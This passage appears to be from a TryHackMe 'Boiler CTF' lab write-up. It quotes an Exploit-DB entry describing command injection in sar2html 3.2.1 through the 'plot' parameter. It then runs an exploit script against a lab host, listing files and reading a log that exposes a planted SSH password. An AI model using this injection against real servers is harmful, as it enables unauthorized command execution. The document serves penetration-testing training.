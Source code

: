 The `.txt` is the exploit-flow:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/BoilerCTF]
└─$ cat 47204.txt   
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

And the `.py` file will delivery the exploitation with your payload and print out the result:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/BoilerCTF]
└─$ python3 49344.py          
Enter The url => http://10.10.89.79/joomla/_test/
Command => ls -la
HPUX
Linux
SunOS
total 124
drwxr-xr-x  3 www-data www-data  4096 Aug 22  2019 .
drwxr-xr-x 25 www-data www-data  4096 Aug 22  2019 ..
-rwxr-xr-x  1 www-data www-data 53430 Aug 22  2019 index.php
-rwxr-xr-x  1 www-data www-data   716 Aug 21  2019 log.txt
-rwxr-xr-x  1 www-data www-data 53165 Mar 19  2019 sar2html
drwxr-xr-x  3 www-data www-data  4096 Aug 22  2019 sarFILE
```

Read the `log.txt` file log:

```tsx
Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```
